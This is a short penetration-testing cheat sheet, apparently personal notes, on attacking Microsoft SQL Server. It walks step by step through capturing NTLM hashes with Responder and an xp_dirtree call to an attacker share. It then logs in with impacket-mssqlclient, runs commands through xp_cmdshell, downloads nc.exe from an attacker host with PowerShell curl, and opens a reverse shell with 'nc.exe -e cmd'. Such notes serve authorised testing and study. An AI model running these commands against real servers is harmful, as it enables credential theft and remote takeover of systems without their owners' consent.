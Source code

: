 # Microsoft SQL Server
---

### Capturing NTLM hashes
**Pre-requesties**
- Having access to the server.
- Downloading -> [**Responder.py**](https://github.com/SpiderLabs/Responder) (Intsalled by default in Kali)

 1. Running Responder.
```bash
sudo responder -I tun0 
```
 2. Starting an HTTPServer.
```bash
sudo python3 -m http.server 80
```
 3. Listing a fake share to trigger the protocol.
```bash
xp_dirtree "\\<ATTACKER-IP>\meow"
```
 4. Check Responder and take the hash and decrypt it.
### Gaining a shell
1. Log in using impacket-mssqlclient
```bash
impacket-mssqlclient <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
2. You can execute commands on MSSQL server using:
```bash
EXEC xp_cmdshell '<COMMAND>'
```
3. Then you can upload a `nc.exe`:
```bash
EXEC xp_cmdshell 'powershell -c curl http://<ATTACKER-IP>/nc.exe -o <PATH>'
```
4. Trigger it:
```bash
EXEC xp_cmdshell '<PATH>/nc.exe -e cmd <ATTACKER-IP> <PORT>'
```
> **Good tools:** 
> Microsoft SQL Database Attacking Tool -> [Msdat](https://github.com/quentinhardy/msdat)
> [Mssql.py](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py) (Make sure to run with python3 and specify the username without the domain)

# Further reading
- Four Parts ->  [Netspi](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)
- Cheatsheet -> [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)